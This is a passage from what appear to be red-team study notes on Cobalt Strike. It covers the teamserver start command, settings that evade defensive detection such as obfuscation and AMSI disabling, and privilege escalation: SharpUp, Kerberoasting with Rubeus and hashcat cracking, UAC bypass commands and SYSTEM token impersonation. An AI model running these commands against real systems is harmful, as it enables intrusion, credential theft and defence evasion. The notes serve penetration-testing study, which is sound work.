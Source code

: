 ``` ./teamserver <IP> <Password> [Path to Malleable C2 Profile] [Kill Date for Beacon Payloads - YYYY-MM-DD]``` - To start the Team Server
      * Thread Start Address - No module associated with the start address -> Controlled by 'process-inject' configuration
      * Memory Permissions - RWX, RWX permissions. Odd 'AllocationProtect,Protect' pairs -> Controlled by 'process-inject' configuration
      * Memory Content - Signs of a PE file, Strings associated with a toolset or common techniques -> Set 'post-ex' > 'obfuscate' to True
   * PowerShell and .NET (Special Case)
      * Functions, strings and patterns from offense tools -> Set 'post-ex' > 'amsi_disable' to True, use 'powerpick' or 'psinject' instead of 'powershell'

- - - -

## Privilege Escalation ##

### Escalation Options ###
``` elevate ``` in the Beacon console to spawn an elevated session

``` runasadmin ``` to run w/ elevated privileges

'Cobalt Strike' > 'Script Manager' > Load 'Elevate Kit' - Gives more elevation and runasadmin options

#### SharpUp ####
Privilege Escalation "vulnerability scanner" that looks for misconfigurations in the system.

``` execute-assembly /<local-path>/SharpUp.exe all ```

#### Kerberoasting ####
1. Query the domain controller for accounts with SPNs (Service Principle Name) - service logon accounts associated with a service
2. Request a TGS Ticket for the associated service
3. Try to recover the password by cracking the TGS ticket - because part of it is encrypted with the domain user's password hash

``` execute-assembly /<local-path>/rubeus.exe kerberoast /outfile:hashes.txt ```

``` hashcat -m 13100 -a 0 --force -o <output>.txt <input - hashes.txt> <wordlist> ``` - To crack the hashes

### Bypass User Access Control (UAC) and Get SYSTEM ###
* Use ` elevate uac-token-duplication <listener> ` - Fixed in Windows 10 RS5 (Oct 2018)
* Use ` runasadmin uac-cmstplua <command> ` 
* Use options in the Elevate Kit

#### Access Token ####
Concept not present in Linux, only Windows. It is a data structure managed within lsas, created after logon and associated with each process and thread, and persists in memory until reboot.

It contains:
* User and Group Information
* A list of privileges on the local computer
* Restrictions
* Reference to credentials

``` run whoami /priv ``` - To get the privileges on the present token

``` getprivs ``` - To enable the disabled privileges

The 'SYSTEM' token is one way to obtain full privileges over the machine. 

``` getsystem ``` - To search for and impersonate the SYSTEM token

``` elevate svc-exe <listener> ``` - To spawn a session via a service executable

### Credential and Hash Harvesting ###
```